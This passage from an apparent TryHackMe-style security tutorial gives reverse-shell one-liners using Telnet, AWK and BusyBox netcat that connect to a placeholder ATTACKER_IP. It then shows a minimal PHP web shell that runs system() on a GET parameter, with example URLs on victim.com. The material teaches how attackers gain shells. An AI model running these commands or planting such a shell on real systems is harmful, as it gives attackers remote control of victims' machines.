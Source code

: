 ### Others

**Telnet**
```bash 
target@tryhackme:~$ TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP443 0<$TF | sh 1>$TF
```
This reverse shell creates a named pipe using `mkfifo` and connects to the attacker via Telnet on IP `ATTACKER_IP` and port `443`. 

**AWK**
```bash 
target@tryhackme:~$ awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
This reverse shell uses AWK’s built-in TCP capabilities to connect to `ATTACKER_IP:443`. It reads commands from the attacker and executes them. Then it sends the results back over the same TCP connection.

**BusyBox**
```bash 
target@tryhackme:~$ busybox nc ATTACKER_IP 443 -e sh
```
This BusyBox reverse shell uses Netcat (`nc`) to connect to the attacker at `ATTACKER_IP:443`. Once connected, it executes `/bin/sh`, exposing the command line to the attacker.

## Web Shell

A web shell is a script written in a language supported by a compromised web server that executes commands through the web server itself. A web shell is usually a file containing the code that executes commands and handles files. It can be hidden within a compromised web application or service, making it difficult to detect and very popular among attackers.

Web shells can be written in several languages supported by web servers, like PHP, ASP, JSP, and even simple CGI scripts. 

#### Example PHP Web Shell

Let’s look at an example PHP web shell to understand how this process works:

```PHP 
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```
The above shell can be saved into a file with the PHP extension, like `shell.php`, and then uploaded into the web server by the attacker by exploiting vulnerabilities. 

After the web shell is deployed on the server, it can be accessed through the URL where the web shell is hosted. In this example:  
`http://victim.com/uploads/shell.php`

As observed from the code in `shell.php`, we need to provide a GET method with the variable `cmd`, which should contain the command the attacker wants to execute. For example, to execute the command `whoami`, the request to the URL should be:  
`http://victim.com/uploads/shell.php?cmd=whoami`
